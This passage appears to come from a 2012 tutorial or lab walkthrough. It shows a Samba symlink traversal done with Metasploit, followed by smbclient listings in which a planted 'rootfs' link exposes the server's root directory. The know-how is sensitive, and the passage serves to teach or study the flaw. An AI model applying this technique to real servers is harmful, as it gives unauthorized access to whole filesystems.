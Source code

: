 ->![](/images/2012-08-29/05.png)<-

Metasploit successfully creates the symlink. We can verify this with smbclient.

```
smb: \> dir
  .                                   D        0  Tue Aug 28 19:52:56 2012
  ..                                  D        0  Tue Aug 28 20:40:02 2012
  rootfs                              D        0  Tue Aug 28 20:40:02 2012
  test.txt                            A        6  Tue Aug 28 19:39:53 2012
  session_mm_apache0.sem                       0  Tue Aug 28 18:41:03 2012
  .X11-unix                          DH        0  Tue Aug 28 18:40:19 2012
  .ICE-unix                          DH        0  Tue Aug 28 18:40:19 2012
 
  38631 blocks of size 16384. 30700 blocks available
smb: \> 
```

If we go into the rootfs directory and do a listing, we see the contents of the server's root directory:

```
smb: \> cd rootfs
smb: \rootfs\> ls
  .                                   D        0  Tue Aug 28 20:40:02 2012
  ..                                  D        0  Tue Aug 28 20:40:02 2012
  var                                 D        0  Thu Sep 28 17:17:18 2006
  tmp                                 D        0  Tue Aug 28 19:52:56 2012
  dev                                 D        0  Tue Aug 28 18:41:06 2012
  sys                                 D        0  Tue Aug 28 20:39:38 2012
  proc                               DR        0  Tue Aug 28 20:39:38 2012
  boot                                D        0  Mon Feb 21 06:29:26 2011
  mnt                                 D        0  Tue Aug 28 20:40:02 2012
  etc                                 D        0  Tue Aug 28 18:41:05 2012
  usr                                 D        0  Fri Feb 18 03:10:16 2011
  srv                                 D        0  Sat Apr  7 19:30:06 2007
  sbin                                D        0  Mon Feb 14 05:35:48 2011
  root                                D        0  Mon Feb 21 06:25:52 2011
  opt                                 D        0  Sun Jun 10 02:23:35 2007
  lib                                 D        0  Fri Feb 18 02:39:02 2011
  home                                D        0  Mon Feb 14 06:00:31 2011
  bin                                 D        0  Mon Apr 30 00:35:12 2007
 
  38631 blocks of size 16384. 30623 blocks available
smb: \rootfs\>
```